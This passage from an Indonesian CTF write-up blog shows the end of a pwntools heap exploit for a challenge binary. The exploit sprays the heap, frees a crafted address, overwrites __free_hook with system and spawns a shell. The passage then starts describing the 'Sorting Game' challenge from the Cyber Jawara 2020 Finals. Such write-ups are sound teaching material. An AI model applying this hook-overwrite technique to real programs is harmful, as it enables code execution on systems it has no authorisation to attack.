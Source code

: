```py
heap_base = heap_leak - 0x12ee0
print(hex(heap_base))

withdraw(0)
exit_pc()
for i in range(16):
	create(1, 'qwe')
restart_game()

set_name("ASD")
for i in range(10):
	create(1, (p64(heap_base+0x130f0)*2 + p64(5)).ljust(0x100, b"A") )
	enter_pc()
	deposit(0)
	exit_pc()
restart_game()

to_free = heap_base + 0x14040
print(hex(to_free))
set_name(p64(to_free))
create(1, "A"*0x100)
enter_pc()
deposit(-2)
exit_pc()
restart_game()


set_name("sh;\x00"*64)
create(1, p64(free_hook)*36)
create(1, p64(system)*32)
enter_pc()
deposit(-4)
exit_pc()
restart_game()


p.interactive()
p.close()
```

Soal ini lumayan seru untuk dibuat, sebab trik-trik class dan string merupakan sesuatu yang saya ingin pelajari dari dulu, dan membuat soal ini tentu membantu dalam mempelajarinya.



### 3. Sorting Game (Cyber Jawara 2020 Finals)
Sorting game merupakan soal yang paling membuat frustrasi, sebab soal ini agak random dan aneh. Kali saya aja yang bodoh. Pembuat soal ini merupakan orang yang LEBIH JAGO LAGI Fariskhi Vidyan. Anda dapat unduh semua file soal ini pada link [ini](https://drive.google.com/drive/folders/1MWZBBxaByKVMAgB-7WlES8cGFbuXjP5F?usp=sharing).

Sorting game merupakan game 1v1 melawan AI, untuk mengurutkan suatu array angka agar terurut dari kecil ke besar, dengan mengubah angka-angka yang terdapat pada array tersebut. Pemain yang mengubah angka terakhir pada array tersebut hingga terurut merupakan pemenangnya.
